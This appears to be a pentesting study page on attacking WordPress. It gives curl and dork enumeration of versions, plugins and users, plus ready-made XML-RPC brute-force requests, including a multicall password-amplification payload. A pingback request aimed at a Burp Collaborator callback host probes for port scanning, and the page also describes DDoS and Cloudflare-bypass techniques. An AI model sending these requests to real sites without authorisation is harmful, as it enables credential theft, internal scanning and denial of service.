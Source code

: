 ```yaml
---
title: pentesting wordpress
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - wordpress
  - pentesting
---
```


# Pentesting wordpress

## Enumeration

### Using curl to enumerate wordpress version, plugins and themes

```bash
# Return the worpress version
curl -s -X GET https://example.com | grep '<meta name="generator"'

# Plugin enumeration
curl -s -X GET http://example.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'wp-content/plugins/*' | cut -d"'" -f2

# Themes enumeration
curl -s -X GET http://example.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2
```

### Dorking techniques

```
inurl:"/xmlrpc.php?rsd" + scoping restrictions

intitle:"WordPress" inurl:"readme.html" + scoping restrictions = general wordpress detection

allinurl:"wp-content/plugins/" + scoping restrictions = general wordpress detection
```

### User enumeration

#### With curl

```bash
# Using curl
curl -s -I -X GET http://blog.inlanefreight.com/?author=1

# json enumeration
curl http://blog.inlanefreight.com/wp-json/wp/v2/users | jq
```

#### Manual method

Manual method: users in wordpress have unique identifiers. Usually first user in wordpress has id 1. Second user, id 2. So in the browser you can write:

```
http://example.com/wordpressPath?author=1
```


## Brute force attack on login

Usually, login form is located at example.com/wp-admin/login.php

But sometimes, login form is hidden under a different path. There exist plugins to do so.

## WordPress xmlrpc attacks 

XML-RPC on WordPress is actually an API that allows developers who make 3rd party application and services the ability to interact to your WordPress site. The XML-RPC API that WordPress provides several key functionalities that include:

- Publish a post.
- Edit a post.
- Delete a post.
- Upload a new file (e.g. an image for a post).
- Get a list of comments.
- Edit comments.

XML-RPC functionality is turned on by default since WordPress 3.5. Therefore, normal installation of wordpress allows us to perform two type of attacks:

- XML-rpc ping attacks.
- Brute force attack.


**Before attacking**, we need to make sure that there exist XML-RPC servers on the wordpress installation:

**1.** Ensure you have access to the xmlrpc.php file (usually at https://example.com/xmlrpc.php). 

**2.** Send a POST request: .

```
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 135

<?xml version="1.0" encoding="utf-8"?> 
<methodCall> 
<methodName>system.listMethods</methodName> 
<params></params> 
</methodCall>
```

Same request with curl would be:

```
curl -X POST -d "<?xml version=\"1.0\" encoding=\"utf-8\"?> <methodCall> <methodName>system.listMethods</methodName> <params></params></methodCall>" http://example.com/xmlrpc.php
```

Normal response to this request would be listing all available methods.


### XML-RPC brute force attack

Use BurpSuite Intruder to send this request:

```
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 235

<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>\{\{your username\}\}</value></param> 
<param><value>\{\{your password\}\}</value></param> 
</params> 
</methodCall>
```

You can also perform a single request, and brute force hundreds of passwords. For that you need to use both system.multicall and wp.getUsersBlogs methods:

```
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 1560

<?xml version="1.0"?>
<methodCall><methodName>system.multicall</methodName><params><param><value><array><data>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>\{\{ Your Username \}\}</string></value><value><string>\{\{ Your Password \}\}</string></value></data></array></value></data></array></value></member></struct></value>

</data></array></value></param></params></methodCall>
```


### XML-RPC pingback attack: Distributed denial-of-service (DDoS) attacks 

An attacker executes the pingback.ping the method from several affected WordPress installations against a single unprotected target (botnet level).


### XML-RPC pingback attack: Cloudflare Protection Bypass

An attacker executes the pingback.ping the method from a single affected WordPress installation which is protected by CloudFlare to an attacker-controlled public host (for example a VPS) in order to reveal the public IP of the target, therefore bypassing any DNS level protection.


### XML-RPC pingback attack: XSPA (Cross Site Port Attack) 

An attacker can execute the pingback.ping the method from a single affected wordpress installation to the same host (or other internal/private host) on different ports. An open port or an internal host can be determined by observing the difference in time of response and/or by looking at the response of the request.


The following represents an simple example request using the Burpsuite Collaborator provided URL as callback:

```
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 303

<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>https://pdaskjdasas23fselrkfdsf.oastify.com/1562017983221-4377199190203</string></value>
</param>
<param>
<value><string>https://example.com/</string></value>
</param>
</params>
</methodCall>
```


```bash
# Brute force with curl
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

# If the credentials are not valid, we will receive a 403 faultCode error.
```




## Interesting files

If somehow we get our hands on wp-config.php, then we will be able to see credentials to database. 




## Tools


[wpscan](wpscan.md)
